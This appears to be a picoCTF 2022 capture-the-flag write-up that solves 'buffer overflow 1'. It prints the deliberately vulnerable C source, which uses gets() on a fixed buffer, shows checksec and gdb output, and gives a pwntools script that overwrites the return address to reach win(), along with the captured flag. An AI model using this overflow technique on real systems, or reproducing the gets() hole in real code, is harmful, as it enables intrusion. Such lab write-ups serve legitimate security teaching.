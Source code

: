 # buffer overflow 1 - picoCTF 2022 - CMU Cybersecurity Competition
Binary Exploitation, 200 Points

## Description

![‏‏info.JPG](images/info.JPG)
 
## buffer overflow 1 Solution

Let's observe the attached file [vuln.c](./vuln.c):
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

Let's run ```checksec``` on the attached file [vuln](./vuln):
```console
┌─[evyatar@parrot]─[/pictoctf2022/binary_exploitation/bof_1]
└──╼ $ checksec vuln
[*] '/pictoctf2022/binary_exploitation/bof_1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

We can see no [PIE](https://ir0nstone.gitbook.io/notes/types/stack/pie) enable.

We need to change the return address from ```vuln``` function to the address of ```win``` function.

Let's find the address of ```win``` function using ```gdb```:
```console
gef➤  p win
$1 = {<text variable, no debug info>} 0x80491f6 <win>
```

We can overwrite the return address using ```gets(buf)``` on ```vuln``` function, The buffer size is 32.

Let's find the offset between ```buf``` to ```EIP```:
```console
gef➤  r
Starting program: /pictoctf2022/binary_exploitation/bof_1/vuln 
Please enter your string: 
AAAAAAAA

...
gef➤  search-pattern AAAAAAAA
[+] Searching 'AAAAAAAA' in memory
[+] In '[heap]'(0x804d000-0x806f000), permission=rwx
  0x804d1a0 - 0x804d1aa  →   "AAAAAAAA\n" 
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rwx
  0xffffd050 - 0xffffd058  →   "AAAAAAAA" 
gef➤  i f
Stack level 0, frame at 0xffffd080:
 eip = 0x80492a3 in vuln; saved eip = 0x804932f
 called by frame at 0xffffd0b0
 Arglist at 0xffffd03c, args: 
 Locals at 0xffffd03c, Previous frame's sp is 0xffffd080
 Saved registers:
  ebx at 0xffffd074, ebp at 0xffffd078, eip at 0xffffd07c

```

We can see the buffer located on ```0xffffd050``` and ```EIP``` on ```0xffffd07c```, The offset is 44 bytes (0xffffd07c - 0xffffd050).

Meaning that we need to insert ```44``` bytes of chunk and then the address of ```win``` function:
```c
...|         buf[32]         |    12bytes   |    EIP   | ....
````

Let's solve it using [pwntools](https://docs.pwntools.com/en/stable/intro.html):
```python
from pwn import *

elf = ELF('./vuln')
libc = elf.libc

if args.REMOTE:
    p = remote('saturn.picoctf.net',61406)
else:
    p = process(elf.path)

# payload buffer
payload = b'A'*44
payload += p32(0x80491f6)

print(p.recvuntil(':'))
p.send(payload)
p.interactive()
```

Run it:
```console
┌─[evyatar@parrot]─[/pictoctf2022/binary_exploitation/bof_1]
└──╼ $ python3 bof1.py REMOTE
[*] '/pictoctf2022/binary_exploitation/bof_1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[*] '/usr/lib32/libc-2.31.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to saturn.picoctf.net on port 61406: Done
b'Please enter your string:'
[*] Switching to interactive mode
 
$ 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_60fac6aa}
[*] Got EOF while reading in interactive

```

And we get the flag ```picoCTF{addr3ss3s_ar3_3asy_60fac6aa}```.